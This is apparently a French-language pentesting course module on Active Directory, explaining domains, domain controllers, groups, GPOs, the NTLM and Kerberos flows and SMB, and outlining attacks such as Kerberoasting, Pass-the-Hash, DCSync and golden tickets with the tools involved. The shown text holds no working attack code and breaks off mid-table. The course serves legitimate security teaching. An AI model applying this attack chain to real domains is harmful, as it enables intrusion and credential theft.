




# Présentation

Bienvenue au niveau 9 de CyberAcademy : **Active Directory**. Jusqu'ici, tu as attaqué des machines isolées : un serveur web ici, un binaire là, une capture réseau ailleurs. Dans le monde réel, presque rien ne fonctionne ainsi. Les entreprises organisent leurs ordinateurs et leurs comptes autour d'un annuaire central : c'est **Active Directory** (en abrégé **AD**). C'est le cœur battant de la plupart des réseaux d'entreprise — et de loin la cible n° 1 des attaquants.

**L'histoire de départ.** Tu es pentester junior. Ton premier client est une société de 3 000 employés, avec une centaine de serveurs Windows, un domaine d'entreprise, et un **SOC** (Security Operations Center, « centre d'opérations de sécurité ») débordé. Le contrat de test d'intrusion couvre « la recherche de la voie d'accès la plus courte vers le contrôle total du domaine ». Tu n'as jamais touché un Windows. La semaine prochaine, tu dois livrer un rapport. Ce cours est ta préparation intensive.

## Pourquoi Active Directory — la colonne vertébrale de l'entreprise

Active Directory est au réseau d'entreprise ce que le **trombinoscope + l'organigramme + le badge d'accès** sont à une grande entreprise physique : il sait qui est qui, qui a le droit d'entrer où, et il refuse l'accès à tous les autres. Toute machine Windows d'une entreprise moderne consulte l'annuaire AD pour savoir qui tu es, tes permissions, et quelles politiques appliquer.

| Atout d'AD | Explication | POURQUOI c'est décisif |
| ---------- | ----------- | ---------------------- |
| **Présent partout** | On estime que plus de 95 % des entreprises du Fortune 500 et une majorité des PME/ETI utilisent AD | Si tu sais attaquer AD, tu sais attaquer l'infrastructure de presque tous tes futurs clients |
| **Cible n° 1** | Les ransomwares (WannaCry, NotPetya, LockBit, BlackCat…) passent tous par AD pour se déplacer d'une machine à l'autre | AD est le « pot de miel » : compromettre AD = compromettre toute l'entreprise |
| **Un seul point de contrôle** | Qui contrôle le domaine contrôle tous les postes, tous les comptes, toutes les données | Un domaine compromis est un sinistre total : identités, données, machines, sauvegardes |
| **Complexité = erreurs** | Des décennies de couches (NTLM, Kerberos, SID, délégations, OUs, GPO) s'empilent | Chaque couche ajoute des chemins d'attaque possibles : c'est le terrain de chasse des pentesters |
| **Compétence rare et chère** | Peu de profils maîtrisent AD en profondeur ; la demande explose | Un pentester AD senior facture deux à trois fois un pentester web |

## L'importance : le niveau qui change ta carrière

Les niveaux 0 à 6 t'ont appris les fondamentaux (Linux, réseau, méthodologie). Les niveaux 7 et 8 t'ont entraîné aux défis et aux chasses aux bugs. **Active Directory est le premier niveau purement « entreprise »** : la technique que tu apprends ici est exactement celle qui rapporte des contrats, celle que les SSII de cybersécurité recherchent, et celle qui débloque les machines les plus cotées de HackTheBox (Machine de catégorie « Active Directory », 50 points +, résolues par moins de 30 % des utilisateurs).

Ce cours couvre la chaîne complète de la compromission d'un domaine :

```
Accès initial ──► Énumération ──► Attaque de l'authentification ──► Mouvement latéral
      ──► Prise de contrôle du domaine (DCSync / tickets) ──► Persistance ──► Rapport
```

## Où c'est utilisé

### Dans l'entreprise

| Contexte | Ce qu'AD fait |
| -------- | ------------- |
| **Poste de travail** | Authentifier l'employé, appliquer les politiques de sécurité (GPO), monter les lecteurs réseau |
| **Serveur de fichiers** | Contrôler qui peut lire/écrire les partages dossiers (SMB) |
| **Messagerie** | Authentifier Exchange/Office 365 hybride, gérer les groupes de distribution |
| **VPN / Wi-Fi** | Authentifier les utilisateurs distants (RADIUS adossé à AD) |
| **Applications** | SSO (Single Sign-On, « authentification unique ») : une seule session pour tout |
| **Sauvegardes et administratif** | Comptes de service, comptes d'administration, mots de passe des serveurs |

### Métiers concernés

| Métier | Rôle concret | Pourquoi ce cours est essentiel |
| ------ | ------------ | ------------------------------- |
| **Pentester AD** | Tester la sécurité du domaine d'un client, de l'accès initial au contrôle total | C'est l'expertise n° 1 de ce niveau |
| **Red teamer** | Simuler une attaque réaliste complète (phishing → domaine) pour tester les défenses | La méthodologie et les outils sont les mêmes, avec une exigence d'évasion en plus |
| **SOC analyst** (analyste en centre de supervision) | Détecter et investiguer les attaques AD (Kerberoasting, DCSync, golden ticket) | Comprendre les attaques pour reconnaître leurs traces dans les logs |
| **Admin système / ingénieur AD** | Construire et durcir le domaine | Connaître les attaques pour savoir quoi protéger |
| **Incident responder** | Répondre à une compromission de domaine | Reconnaître la technique utilisée et la stopper proprement |

## Prérequis

Pour suivre ce cours sereinement, tu dois avoir validé :

- **Niveau 0 — Computer Fundamentals** : fichiers, processus, permissions.
- **Niveau 1 — Linux Fundamentals** : terminal, `grep`, `sed`, scripts Bash, gestion des services.
- **Niveau 2 — Networking** : TCP/IP, ports, DNS, HTTP, `nmap`, `tcpdump`.
- **Niveau 3 — Python / Bash** : scripts, parsing, `curl`, `requests`.
- **Niveau 6 — Pentesting Methodology** : reconnaissance, exploitation, post-exploitation, rapport.

> ⚠️ **Important** : ce cours **ne suppose AUCUNE connaissance préalable de Windows ou d'Active Directory**. Chaque acronyme est défini à sa première occurrence, chaque notion est expliquée par une analogie. Tu découvriras Windows et AD en même temps.

> ⏱️ **Temps estimé : 20 heures** — soit 5 séances de 4 heures.
> 📊 **Niveau : 9** — dixième maillon de la roadmap CyberAcademy (niveaux 0 → 11).

## Ce que tu vas construire

À la fin de ce cours, tu auras :

- une **compréhension profonde d'AD** : annuaire, domaines, forêts, DC, OU, GPO, groupes, SID ;
- la maîtrise de **deux protocoles d'authentification** (NTLM et Kerberos) et de leurs attaques ;
- une **boîte à outils complète** : BloodHound/SharpHound, impacket, mimikatz, Rubeus, Responder, hashcat/john, netexec ;
- **5 démonstrations résolues**, **2 laboratoires complets** et **3 mini challenges** ;
- un badge 👑 Domain Master et le niveau 10 (Red Team) débloqué.

---

## Objectifs pédagogiques

À la fin de ce cours, tu seras capable de :

1. **Expliquer l'architecture d'Active Directory** : annuaire LDAP, domaines, forêts, arbres, OUs, GPO, et le rôle des Domain Controllers — avec les acronymes corrects et le « pourquoi » de chaque brique.
2. **Distinguer NTLM et Kerberos dans le détail** : décrire le challenge/response NTLM et le flux complet Kerberos (KDC, TGT, TGS, SPN, clés), et savoir quel protocole est utilisé dans quel contexte.
3. **Énumérer un domaine avec méthode** : interroger LDAP (`ldapsearch`, `Get-ADUser`, `Get-ADComputer`), collecter les données avec SharpHound/`bloodhound-python`, et lire les chemins d'attaque dans BloodHound.
4. **Attaquer l'authentification** : mener un Kerberoasting (`GetUserSPNs.py`/Rubeus) et un AS-REP Roasting (`GetNPUsers.py`) réels, casser les tickets avec `hashcat` ou `john`, et relayer des identifiants via un empoisonnement LLMNR/NBT-NS avec Responder.
5. **Se mouvoir latéralement et escalader** : Pass-the-Hash, Pass-the-Ticket et Overpass-the-Hash avec `psexec.py`, `wmiexec.py`, netexec et mimikatz, jusqu'au contrôle d'un DC.
6. **Prendre le contrôle total du domaine** : exécuter un DCSync (`secretsdump.py`, mimikatz), forger un golden ticket et un silver ticket avec impacket, et comprendre les contre-mesures correspondantes.
7. **Défendre et documenter** : identifier les défenses AD essentielles (admin tier model, protection des comptes, monitoring des attaques) et rédiger un rapport de pentest AD professionnel.

---

## Vue d'ensemble

Voici la feuille de route de ce cours. Chaque module s'appuie sur le précédent : tu ne peux pas Kerberoaster sans comprendre Kerberos, tu ne peux pas DCSync sans comprendre SID et NTDS.dit.



### Tableau des modules

| Module | Durée | Contenu clé | Compétence visée |
| ------ | ----- | ----------- | ---------------- |
| 1. Architecture AD | 3 h | Annuaire, domaine, forêt, arbre, DC, OU, GPO | Comprendre le paysage |
| 2. Objets et authentification | 4 h | Users, computers, groups, SID, RID, NTLM, Kerberos | Maîtriser les briques |
| 3. SMB et reconnaissance | 3 h | Partages SMB, LDAP, PowerShell, BloodHound | Énumérer |
| 4. Attaques d'authentification | 3 h | Kerberoasting, AS-REP Roasting, cracking | Attaquer les tickets |
| 5. Attaques réseau | 2 h | LLMNR/NBT-NS poisoning, SMB relay | Attaquer le protocole |
| 6. Mouvement latéral | 3 h | PtH, PtT, Overpass-the-Hash, exécution distante | Se déplacer |
| 7. Contrôle du domaine | 2 h | DCSync, NTDS.dit, golden/silver ticket | Gagner le domaine |
| 8. Persistance et défenses | 1,5 h | Backdoors, tier model, monitoring | Défendre |
| 9. Labos | 3 h | GOAD, HTB, THM, pratique guidée | S'entraîner |
| Quiz + défis | 1,5 h | Validation | Valider |

---

## Théorie

> ⚠️ **Légal** — Toute la théorie de ce cours est illustrée avec des exemples tirés de **laboratoires dédiés** (GOAD, HackTheBox, TryHackMe) ou d'infrastructures que tu possèdes et que tu as l'autorisation écrite de tester. **Active Directory est une infrastructure d'entreprise** : ne lance jamais une seule commande de ce cours sur un domaine réel sans mandat écrit. Les techniques que tu apprends sont celles des ransomwares : l'autorisation fait toute la différence.

---

### (a) Qu'est-ce qu'Active Directory

#### Définition

**Active Directory (AD)** est le service d'annuaire de Microsoft. Un **annuaire** (directory service) est une base de données spécialisée qui stocke des informations sur les **objets** d'une organisation : utilisateurs, groupes, ordinateurs, imprimantes, partages, politiques. AD organise ces objets dans une hiérarchie et fournit à chaque machine Windows du réseau la réponse à trois questions : *Qui es-tu ? Qu'as-tu le droit de faire ? Quelle politique dois-tu appliquer ?*

**Analogie.** Imagine le **standard téléphonique d'un grand hôtel** : il sait qui sont les clients (les comptes), dans quelles chambres ils logent (les machines), qui a le droit d'accéder à la salle de sport et qui n'a pas le droit d'entrer dans les étages du personnel (les permissions). Quand tu te présentes à la réception, le standard vérifie ton identité et te remet une carte magnétique qui s'ouvre uniquement aux portes autorisées. AD fait exactement cela, pour toute l'entreprise.

#### Pourquoi

Sans AD, chaque machine Windows gérerait localement ses propres comptes : impossible à administrer dès qu'on dépasse quelques dizaines de postes, impossible à sécuriser (chaque compte administrateur local est une porte d'entrée), et impossible pour un employé de se déplacer de poste en poste. AD **centralise** : une seule base d'identités, un seul endroit où changer un mot de passe, un seul endroit où dire « cette personne part, supprime son compte ». La sécurité d'un domaine repose sur ce point central : c'est pourquoi AD est à la fois si efficace et si convoité.

#### Historique

| Année | Étape |
| ----- | ----- |
| 1993 | Windows NT 3.1 introduit les **domaines NT**, ancêtres d'AD (annuaire simple, pas de hiérarchie) |
| 2000 | Windows 2000 Server introduit **Active Directory**, fondé sur le standard **LDAP** (Lightweight Directory Access Protocol, « protocole d'accès à un annuaire ») et sur **Kerberos** |
| 2003 | AD améliore la gestion des forêts, des délégations et de la confiance |
| 2008 / 2012 | AD DS (Active Directory Domain Services) gagne le **Fine-Grained Password Policy**, le contrôle d'accès aux OUs, les comptes administrés de groupe (gMSA) |
| 2016 / 2019 | AD introduit le **PAM** (Privileged Access Management), l'ADUC en version management, et s'hybride avec Azure AD (aujourd'hui **Entra ID**) |

#### Fonctionnement interne

AD repose sur quatre services (rôles) qui portent le nom d'AD :

| Service | Rôle | Acronyme |
| ------- | ---- | -------- |
| **AD DS** (Active Directory Domain Services) | L'annuaire lui-même : stocke et sert les objets | AD DS |
| **AD CS** (Certificate Services) | Délivre les certificats (utilisés par PKI, VPN, Smart Cards) | AD CS |
| **AD FS** (Federation Services) | Fédère l'authentification avec d'autres organisations | AD FS |
| **AD LDS** (Lightweight Directory Services) | Annuaire léger indépendant du domaine | AD LDS |

Dans ce cours, « AD » désignera presque toujours **AD DS** : la base d'objets et l'authentification.

#### Architecture — domaines, arbres, forêts

Les briques hiérarchiques d'AD, du plus petit au plus grand :

| Brique | Définition | Analogie |
| ------ | ---------- | -------- |
| **Domaine** | Une partition de l'annuaire avec son propre nom DNS (ex. `megacorp.local`), ses propres administrateurs et sa propre base de comptes | Une **filiale** avec son propre organigramme |
| **Arbre** (tree) | Ensemble de domaines partageant un suffixe DNS commun (ex. `europe.megacorp.local`, `asie.megacorp.local`) | Les filiales d'une même famille de marques |
| **Forêt** (forest) | L'ensemble le plus grand : tous les arbres et domaines reliés par des **relations de confiance** transitives et un schéma commun | Le **groupe international** qui possède toutes les marques |

```
                    FORÊT megacorp.local
                    ┌────────────────────────────────────────────┐
                    │                                            │
                    │   ARBRE ── racine : megacorp.local         │
                    │     ├── domaine enfant : europe.megacorp.local
                    │     ├── domaine enfant : asie.megacorp.local
                    │                                            │
                    │   Second arbre (même forêt)                │
                    │     └── autrebranche.local                 │
                    └────────────────────────────────────────────┘
```

Le **domaine racine** de la forêt s'appelle le **forêt root**. Entre tous les domaines d'une même forêt, il existe des **relations de confiance** transitives : un compte de `europe.megacorp.local` peut s'authentifier sur des ressources de `asie.megacorp.local`. C'est cette confiance que les attaques exploitent pour s'étendre d'un domaine à l'autre.

#### Cas d'utilisation

Une entreprise avec 5 000 postes et 8 000 comptes crée un domaine unique `entreprise.local`, découpé en **Unités d'Organisation** (OU, voir plus bas) par services (Direction, RH, IT, Ventes). Une multinationale crée une forêt avec un domaine par pays (`fr.entreprise.local`, `de.entreprise.local`…), reliés par confiances transitives, pour séparer les administrations tout en partageant l'annuaire global.

#### Exemple réel

Dans la machine HackTheBox **Forest** (une des machines AD les plus connues), tu trouves le domaine `htb.local` avec un DC nommé `FOREST` (IP `10.10.10.161`). Le chemin classique : énumération LDAP → un utilisateur au hash faible → **AS-REP Roasting** → compte admin du domaine → **DCSync** sur le DC → contrôle total. Tu résoudras ce scénario complet dans les laboratoires.

#### Bonnes pratiques

- Le nom DNS du domaine est un **espace de noms** ; il ne doit pas être routé sur Internet (usage des suffixes `.local` ou `.internal`).
- Toujours faire la différence entre **domaine** (partition d'objets) et **forêt** (frontière de sécurité réelle : les *Enterprise Admins* contrôlent la forêt entière).
- Ne jamais confondre AD (l'annuaire) et « le serveur principal » : un domaine peut avoir plusieurs DC, et il n'y a pas de « serveur AD » unique.

#### Résumé

AD est l'annuaire centralisé de Microsoft : une base d'objets (utilisateurs, machines, groupes, politiques) servie aux machines Windows par des Domain Controllers. Les objets s'organisent en domaines, arbres et forêts, reliés par des confiances. AD répond aux questions « qui, quoi, combien de droits » pour toute l'entreprise — et c'est pour cela que tout attaquant veut le compromettre.

---

### (b) Les composants d'AD

#### Définition

AD est un ensemble de **composants** : des serveurs qui servent l'annuaire (les **Domain Controllers**), une infrastructure de nommage (**DNS**), et des **objets** (users, computers, groups, OUs) que les administrateurs manipulent dans des outils d'administration (MMC « Active Directory Users and Computers »).

**Analogie.** Un **grand magasin** : les vendeurs (les DC) tiennent la caisse et le registre des clients ; le registre (l'annuaire) est organisé en rayons (les OUs) ; chaque article a une étiquette (l'objet) ; et les règles du magasin (les GPO) s'appliquent différemment selon le rayon.

#### Les Domain Controllers

| Notion | Définition |
| ------ | ---------- |
| **DC** (Domain Controller, « contrôleur de domaine ») | Un serveur Windows qui héberge une copie répliquée de l'annuaire du domaine, exécute le service d'authentification (KDC pour Kerberos, plus de détails plus bas) et sert les données LDAP |
| **Réplication** | Chaque DC détient une copie en lecture/écriture de l'annuaire ; les modifications (nouveau mot de passe, nouveau compte) sont répliquées entre DC |
| **Rôle FSMO** | Des rôles spéciaux (Flexible Single Master Operations) que certains DC portent seuls (ex. « RID master », « PDC ») pour éviter les conflits d'écriture |
| **NTDS.dit** | Le fichier de base de données d'AD (NT Directory Services .dit) : il contient les comptes et, historiquement, les hashes des mots de passe de TOUS les utilisateurs du domaine — la cible ultime du **DCSync** |

Un domaine peut avoir 1 DC (minimum) ou 100 DC (grandes entreprises). Chaque DC est identique : compromettre un seul DC, c'est compromettre le domaine entier, car il détient une copie complète de l'annuaire.

#### DNS AD

**DNS** (Domain Name System, « système de noms de domaine ») est le service qui transforme les noms (`dc01.megacorp.local`) en adresses IP. AD **exige** le DNS : les domaines portent des noms DNS, les DC s'enregistrent avec des enregistrements spécifiques (service records, **SRV**), et les clients trouvent un DC en interrogeant le DNS. Sans DNS, une machine ne peut même pas rejoindre le domaine. En pratique, les DC sont eux-mêmes serveurs DNS de la zone du domaine.

#### Les objets de l'annuaire

| Objet | Définition | Exemple |
| ----- | ---------- | ------- |
| **Utilisateur** (user) | Un compte avec un nom (sAMAccountName), un UPN (User Principal Name, ex. `alice@megacorp.local`) et des attributs (téléphone, groupe, mot de passe haché) | `alice.jones` |
| **Ordinateur** (computer) | Un poste ou serveur membre du domaine ; son compte est un objet AD dont le « mot de passe » est géré par la machine | `PC-ALICE`, `SRV-FILES` |
| **Groupe** (group) | Une collection d'utilisateurs et/ou de machines ; les permissions s'attribuent aux groupes, pas aux individus | `Domain Admins`, `Sales` |
| **OU** (Organizational Unit, « unité d'organisation ») | Un conteneur hiérarchique qui regroupe des objets pour les administrer (délégation, GPO) | OU `IT`, OU `Direction` |
| **GPO** (Group Policy Object, « objet de stratégie de groupe ») | Une stratégie (règles, logiciels, scripts, paramètres de sécurité) liée à une OU et appliquée à tous ses objets | « Forcer l'écran de veille après 5 min » |
| **SPN** (Service Principal Name) | Un identifiant de service Kerberos associé à un compte (ex. `MSSQLSvc/sql01`) — la clé de voûte du Kerberoasting | Voir module (f) |

#### Les groupes importants

AD contient des groupes intégrés aux noms très parlants, définis par leur **scope** (portée) :

| Groupe | Portée | Rôle | RID |
| ------ | ------ | ---- | --- |
| **Domain Users** | Domaine | Tous les comptes utilisateur du domaine | 513 |
| **Domain Admins** | Domaine | Administrateurs de TOUTES les machines du domaine | 512 |
| **Enterprise Admins** | Forêt | Administrateurs de tous les domaines de la forêt | 519 |
| **Domain Controllers** | Domaine | Les DC du domaine | 516 |
| **Schema Admins** | Forêt | Modifient le schéma de l'annuaire | 518 |
| **Administrators** (local) | Machine | Admin local d'une machine précise | 500 (compte), 544 (groupe) |

**Analogie des groupes.** Les groupes sont comme des **équipes de rugby** : on ne donne pas une place à chaque individu dans chaque match, on convoque « l'équipe A ». Si tu veux donner accès à la salle des serveurs à dix personnes, tu les ajoutes au groupe `SalleServeurs` une fois, et tu ouvres la porte à ce groupe.

#### GPO — la stratégie de groupe

Une **GPO** (Group Policy Object) est une collection de réglages Windows (sécurité, registre, scripts, redirection de dossiers, restrictions) liée à une **OU**, à un **site** ou au **domaine**. Les GPO héritent du haut vers le bas : la GPO du domaine s'applique à tous, puis la GPO de l'OU IT s'applique aux objets de l'OU IT. En pentest, les GPO sont intéressantes à deux titres : (1) elles révèlent la politique de sécurité (verrouillage de comptes, restrictions d'exécution) que tes attaques devront contourner, et (2) un compte ayant le droit d'écrire une GPO peut installer un programme (souvent un **scheduled task** ou un script de connexion) qui s'exécute sur toutes les machines de l'OU — une persistance redoutable.

#### Bonnes pratiques

- Ne jamais attribuer de permissions directement aux utilisateurs : **toujours par les groupes**.
- Limiter au strict minimum les membres de `Domain Admins` et `Enterprise Admins` (idéalement 0 à 3 comptes).
- Séparer les postes et les serveurs dans des OUs distinctes pour appliquer des GPO différentes.
- Un DC ne doit **jamais** servir d'autre rôle (web, mail, base de données) : c'est le compte en banque, on ne le laisse pas faire de la vente ambulante.

#### Résumé

AD se compose de Domain Controllers qui servent une base répliquée (NTDS.dit), d'un DNS obligatoire, et d'objets : users, computers, groups, OUs et GPO. Les groupes concentrent les permissions ; les GPO propagent les politiques. Compromettre un DC = compromettre l'annuaire entier, car chaque DC détient une copie complète.

---

### (c) L'authentification dans AD : NTLM et Kerberos

#### Définition

Deux protocoles d'authentification coexistent dans AD :

- **NTLM** (NT LAN Manager) : un système de **défi/réponse** (challenge/response) basé sur un secret partagé — le hash du mot de passe. Il n'utilise ni tickets ni certificats, et il est aujourd'hui considéré comme faible.
- **Kerberos** : le protocole moderne d'AD, fondé sur des **tickets** délivrés par un centre de distribution de clés (le **KDC**). Il permet le **SSO** (Single Sign-On) : une seule authentification donne accès à tous les services du domaine pour la durée d'une session.

**Analogie.** NTLM, c'est le **code d'entrée** identique à chaque porte : tu le répètes à chaque fois, et quiconque t'observe peut le rejouer. Kerberos, c'est le **badge tamponné** : au début de ta journée, tu présentes ton badge à l'accueil qui te délivre un laissez-passer (le TGT) ; ensuite, pour chaque porte, tu échanges ce laissez-passer contre un ticket pour cette porte précise, valable quelques heures, et qui n'ouvre QUE cette porte.

#### Pourquoi comprendre les deux

Chaque attaque de ce cours cible une pièce de ces protocoles : le Kerberoasting vole une clé de service dans un ticket Kerberos ; le Pass-the-Hash rejoue un hash NTLM ; le DCSync vole les hashes NT pour tout rejouer ensuite. Si tu ne comprends pas **quoi** tu voles et **où** le secret circule, tu ne pourras ni choisir l'attaque adaptée ni expliquer l'impact dans ton rapport.

#### 1) NTLM — le challenge/response

NTLM est un protocole de défi-réponse : le serveur envoie un nombre aléatoire (le **challenge**), le client prouve qu'il connaît le mot de passe en calculant une **réponse** à partir de ce challenge et du secret. Le secret n'est pas le mot de passe en clair mais son **hash NT** (voir plus bas).

Le flux (voir le schéma en section Visualisation) :

1. Le client demande une connexion (il envoie son nom d'utilisateur).
2. Le serveur envoie un challenge aléatoire (8 octets pour NTLMv2).
3. Le client calcule : `réponse = f(challenge, secret)` où le secret est dérivé du hash NT du mot de passe, avec des données de contexte (nom de domaine, horodatage).
4. Le serveur effectue le même calcul de son côté (il connaît le hash NT du compte) et compare. Si égal → authentification réussie.

**Le point critique pour le pentester :** le challenge/response (surtout en NTLMv2) peut être **capturé en réseau** pendant une tentative d'authentification (ex. un utilisateur qui ouvre un partage depuis son poste). Ce hash capturé (`NETNTLMv2` dans le jargon) se **casse** hors ligne avec `hashcat`, ou se **relaie** (SMB relay) sans être cassé. C'est l'essence de l'attaque LLMNR poisoning du module (g).

Le **hash NT** (ou **NTLM hash**) est le résultat d'un double hachage du mot de passe : `MD4(UTF-16LE(mot de passe))`. Il fait 32 caractères hexadécimaux. C'est lui qu'on récupère lors d'un DCSync, qu'on rejoue en Pass-the-Hash, et qu'on casse avec `hashcat -m 1000`.

#### 2) Kerberos — les tickets

Kerberos (du chien **Cerberus**, le gardien aux trois têtes de la mythologie grecque) est le protocole par défaut d'AD depuis Windows 2000. Ses acteurs :

| Acronyme | Signification | Rôle |
| -------- | ------------- | ---- |
| **KDC** | Key Distribution Center, « centre de distribution de clés » | Le service Kerberos du DC : délivre et vérifie les tickets |
| **AS** | Authentication Service, « service d'authentification » | La partie du KDC qui authentifie l'utilisateur au début |
| **TGS** | Ticket Granting Service, « service de délivrance de tickets » | La partie du KDC qui délivre les tickets de service |
| **TGT** | Ticket Granting Ticket, « billet de permission de billets » | Le « badge de journée » de l'utilisateur |
| **TGS / Service Ticket** | Ticket Granting Service (ticket de service) | Le ticket pour une ressource précise (ex. un partage) |
| **SPN** | Service Principal Name | L'identifiant Kerberos d'un service (ex. `cifs/srv-files.megacorp.local`) |

**Le flux Kerberos en cinq étapes** (schéma complet en section Visualisation) :

1. **AS-REQ** : le client envoie au KDC son nom d'utilisateur et une **preuve** (un timestamp chiffré avec la clé dérivée de son mot de passe).
2. **AS-REP** : le KDC vérifie, puis répond avec un **TGT** (chiffré avec la clé secrète du compte `krbtgt`, inconnue du client) et une clé de session TGS. Le client déchiffre la partie qui lui est destinée avec sa clé → il a « fait tamponner son badge ».
3. **TGS-REQ** : pour accéder à un service (ex. le partage `\\srv-files`), le client envoie au KDC son TGT **et** le **SPN** du service demandé.
4. **TGS-REP** : le KDC déchiffre le TGT avec la clé de `krbtgt`, vérifie, puis renvoie un **ticket de service (TGS)** chiffré avec la clé **du service** (dérivée du mot de passe du compte qui possède ce SPN).
5. **AP-REQ / AP-REP** : le client présente le TGS au service ; le service le déchiffre avec sa propre clé et vérifie. Accès accordé.

**Deux secrets ultra-importants pour le pentester :**

| Secret | Où il circule / dort | Conséquence s'il fuit |
| ------ | -------------------- | --------------------- |
| **Clé du compte `krbtgt`** | Ne circule jamais ; ne dort que dans la mémoire/la base de chaque DC | On peut forger des TGT pour n'importe qui, y compris un compte inexistant ou `Administrator` (golden ticket) |
| **Clé du compte qui possède un SPN** | Est utilisée pour chiffrer le TGS délivré au client | Le client peut tenter de **casser** ce TGS hors ligne (Kerberoasting) : la clé dérive du mot de passe du compte de service, souvent faible |

**Synchronisation horaire.** Kerberos repose sur des horodatages. Si l'horloge d'un client dérive de plus de 5 minutes par rapport au KDC, l'authentification échoue avec « KRB_AP_ERR_SKEW » (écart de temps). Les machines Windows se synchronisent sur les DC ; c'est pour cela qu'aucun DC ne doit jamais être exposé sur Internet, où l'horloge se désynchroniserait — et c'est aussi un piège classique quand on utilise des tickets dans ses propres scripts.

**Les flags Kerberos et etype.** Les tickets sont chiffrés selon des algorithmes (les **etype**) : `RC4-HMAC` (ancien, faible — mode 13100 de hashcat), `AES128`, `AES256` (modernes, plus durs à casser). Le Kerberoasting donne le meilleur résultat quand le domaine utilise encore RC4.

#### Bonnes pratiques (côté défense)

- Préférer Kerberos et **désactiver NTLM** (ou au moins les relais NTLM) quand c'est possible — Microsoft le recommande de plus en plus fermement.
- Utiliser des mots de passe **longs et uniques** pour les comptes de service (voir Kerberoasting).
- Synchroniser les horloges : c'est une exigence du protocole, pas un détail.
- Surveiller les évènements 4768 (émission de TGT), 4769 (émission de TGS), 4624/4625 (connexions) — on y revient au module (m).

#### Résumé

AD connaît deux authentifications : **NTLM** (défi/réponse avec le hash NT, faible, rejouable) et **Kerberos** (tickets délivrés par le KDC : TGT puis TGS). Kerberos repose sur des clés secrètes : celle de `krbtgt` (que personne ne doit jamais voler) et celles des comptes de service (qui chiffrent les TGS). Chaque attaque de ce cours touche à l'une de ces pièces.

---

### (d) Le protocole SMB et les partages

#### Définition

**SMB** (Server Message Block) est le protocole de Microsoft pour le partage de fichiers, d'imprimantes et de canaux administratifs à travers le réseau. **CIFS** (Common Internet File System) est un ancien nom de la même famille (SMB1/CIFS, abandonné pour SMB2/3). SMB utilise le port **445/TCP** (et 139/TCP pour l'ancien NetBIOS).

**Analogie.** SMB, c'est le **système de casiers** de l'entreprise : chaque service (le partage `data`, le partage `users`) est un casier ; les clés (les permissions) déterminent qui peut l'ouvrir ; et il existe aussi des casiers « de service » invisibles (les partages administratifs) pour les réparateurs.

#### Pourquoi

Dans un domaine Windows, **tout passe par SMB** : monter un lecteur réseau, déposer un fichier sur le serveur de fichiers, exécuter une commande à distance (via `psexec` ou `wmiexec`, qui utilisent SMB et ses canaux administratifs). Pour le pentester, SMB est donc à la fois une surface d'énumération (lister les partages accessibles), un vecteur d'exécution de code (les partages administratifs `C$`, `ADMIN$`), et le protocole de sortie de beaucoup d'attaques (SMB relay, Pass-the-Hash vers SMB).

#### Les partages importants

| Partage | Rôle | Accès |
